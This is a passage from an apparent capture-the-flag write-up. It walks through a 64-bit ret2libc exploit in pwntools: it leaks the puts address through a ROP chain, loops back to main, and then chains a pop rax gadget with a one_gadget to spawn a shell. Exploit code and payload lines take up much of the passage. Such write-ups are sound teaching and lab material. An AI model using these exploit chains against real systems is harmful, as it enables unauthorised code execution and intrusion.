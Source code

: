**Note**: the 2nd line above boils down to getting the address that's printed
out then adding a bunch of `0x00`s to the beginning of the address until it's
a full 8 bytes long (due to the 64-bit architecture of the binary). Then we
run `u64()` (unpack a 64 bit byte string to an integer) against it.

At this point the binary will exit... How will attack the binary after getting
the leak? Since we have a ROP chain, we can simply ask the binary to run
`main` again:

```python  
...  
rc = ROP(exe)  
rc.puts(exe.sym.got["puts"])  
rc.raw(p64(exe.sym["main"]))  
...  
```

Now, after printing out the address of puts (and you subsequently figuring out
the base address of libc), you get the vulnerable function again.

We can build another ROP chain to get a shell:

```  
...  
pop_rax = libc.address + 0x000000000003a638  
one_gadget = libc.address + 0x4484f

rc = ROP(exe)  
rc.raw(p64(pop_rax))  
rc.raw(p64(0x0))  
rc.raw(p64(one_gadget))

io.sendline(b"/etc/passwd\x00" + cyclic(cut) + rc.chain())  
io.sendline(b"/tmp/ABCD")  
...  
```

I used `one_gadget` (https://github.com/david942j/one_gadget) to find an easy
gadget to get a shell (as opposed to writing "/bin/sh" to the bss region, then
slowly fiddling with registers):

```  
0x4484f execve("/bin/sh", rsp+0x30, environ)  
constraints:  
 rax == NULL  
```

The constraint for this gadget is that `rax` must be NULL (i.e., `0x00`).

I found a `pop rax; ret` call in libc by doing `ROPgadget --binary
./libc-2.28.so > rg`. Notice that we have to add the libc base address every
time. This is because of PIE. The offsets will always be the same but the base
address won't; it will change for each run of the binary.

This will set `rax` to `0x00`:

```  
rc.raw(p64(pop_rax))  
rc.raw(p64(0x0))  
```
